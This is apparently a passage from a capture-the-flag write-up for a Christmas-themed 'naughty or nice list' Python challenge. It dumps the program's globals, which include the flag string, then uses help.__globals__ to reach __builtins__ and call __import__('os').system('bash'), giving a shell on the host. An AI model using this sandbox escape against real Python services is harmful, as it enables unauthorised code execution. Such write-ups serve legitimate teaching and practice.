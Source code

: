 ```
{'__name__': '__main__', '__doc__': None, '__package__': None, '__loader__': <_frozen_importlib_external.SourceFileLoader object at 0x7fd6c3f1de80>, '__spec__': None, '__annotations__': {}, '__builtins__': <module 'builtins' (built-in)>, '__file__': 'main.py', '__cached__': None, 'hashlib': <module 'hashlib' from '/usr/local/lib/python3.8/hashlib.py'>, 'date': <class 'datetime.date'>, '__warningregistry__': {'version': 0}, 'flag': b'Itemize{n1ss3ns_l1st3_9000}', 'listfile': 'lists/2023.csv', 'children': ['Amelie,naughty', 'Noralf,naughty', 'Piotr,naughty', 'Thanh,naughty', 'Eilert,nice', 'Leikny,nice', 'Marian,naughty', 'Ida,nice', 'Tellef,nice', 'Margit,naughty', 'Jørgen,naughty', 'Gisle,naughty', 'Gudny,nice', 'Adnan,naughty', 'Audny,naughty', 'Vincent,nice', 'Sylvi,naughty', 'Tim,naughty', 'Magny,nice', 'Åge,naughty', 'Abdul,nice', 'Johanne,naughty', 'Phuong,nice', 'Katherine,nice', 'Tommy,naughty', 'Maren,naughty', 'Pelle,nice', 'Nicklas,naughty', 'Amina,nice', 'Arvid,naughty', 'Joakim,nice', 'Ingebjørg,naughty', 'Juliana,naughty', 'Daniela,nice', 'Finn,nice', 'Rolandas,nice', 'Matthew,nice', 'Liliana,nice', 'Marcel,nice', 'Stella,naughty', 'Ivan,naughty', 'Malin,nice', 'Gerda,naughty', 'Margrete,naughty', 'Henning,nice', 'Rebecka,nice', 'Ewa,naughty', 'Idris,naughty', 'Jamila,nice'], 'help': <function help at 0x7fd6c40b51f0>, 'show': <function show at 0x7fd6c40340d0>, 'update': <function update at 0x7fd6c40341f0>, 'source': <function source at 0x7fd6c4034310>, 'locals': {}, 'globals': {'__builtins__': {}, 'help': <function help at 0x7fd6c40b51f0>, 'show': <function show at 0x7fd6c40340d0>, 'update': <function update at 0x7fd6c40341f0>, 'source': <function source at 0x7fd6c4034310>, 'exit': Use exit() or Ctrl-D (i.e. EOF) to exit, 'debug': <built-in function print>}, 'main': <function main at 0x7fd6c4034f70>}
```

For those interested, we can actually go further than reading the global namespace of the running program, and from that, escape the sandbox into the system internals by remote code execution (RCE).

```
> debug(help.__globals__["__builtins__"])

<module 'builtins' (built-in)>

> debug(help.__globals__["__builtins__"].__dir__())

['__name__', '__doc__', '__package__', '__loader__', '__spec__', '__build_class__', '__import__', 'abs', 'all', 'any', 'ascii', 'bin', 'breakpoint', 'callable', 'chr', 'compile', 'delattr', 'dir', 'divmod', 'eval', 'exec', 'format', 'getattr', 'globals', 'hasattr', 'hash', 'hex', 'id', 'input', 'isinstance', 'issubclass', 'iter', 'len', 'locals', 'max', 'min', 'next', 'oct', 'ord', 'pow', 'print', 'repr', 'round', 'setattr', 'sorted', 'sum', 'vars', 'None', 'Ellipsis', 'NotImplemented', 'False', 'True', 'bool', 'memoryview', 'bytearray', 'bytes', 'classmethod', 'complex', 'dict', 'enumerate', 'filter', 'float', 'frozenset', 'property', 'int', 'list', 'map', 'object', 'range', 'reversed', 'set', 'slice', 'staticmethod', 'str', 'super', 'tuple', 'type', 'zip', '__debug__', 'BaseException', 'Exception', 'TypeError', 'StopAsyncIteration', 'StopIteration', 'GeneratorExit', 'SystemExit', 'KeyboardInterrupt', 'ImportError', 'ModuleNotFoundError', 'OSError', 'EnvironmentError', 'IOError', 'EOFError', 'RuntimeError', 'RecursionError', 'NotImplementedError', 'NameError', 'UnboundLocalError', 'AttributeError', 'SyntaxError', 'IndentationError', 'TabError', 'LookupError', 'IndexError', 'KeyError', 'ValueError', 'UnicodeError', 'UnicodeEncodeError', 'UnicodeDecodeError', 'UnicodeTranslateError', 'AssertionError', 'ArithmeticError', 'FloatingPointError', 'OverflowError', 'ZeroDivisionError', 'SystemError', 'ReferenceError', 'MemoryError', 'BufferError', 'Warning', 'UserWarning', 'DeprecationWarning', 'PendingDeprecationWarning', 'SyntaxWarning', 'RuntimeWarning', 'FutureWarning', 'ImportWarning', 'UnicodeWarning', 'BytesWarning', 'ResourceWarning', 'ConnectionError', 'BlockingIOError', 'BrokenPipeError', 'ChildProcessError', 'ConnectionAbortedError', 'ConnectionRefusedError', 'ConnectionResetError', 'FileExistsError', 'FileNotFoundError', 'IsADirectoryError', 'NotADirectoryError', 'InterruptedError', 'PermissionError', 'ProcessLookupError', 'TimeoutError', 'open', 'quit', 'exit', 'copyright', 'credits', 'license', 'help']

> debug(help.__globals__["__builtins__"].__import__("os").system("bash"))

id
uid=1000(ctf) gid=1000(ctf) groups=1000(ctf)
ls
flag.txt
help.txt
lists
main.py
ynetd
cat flag.txt
```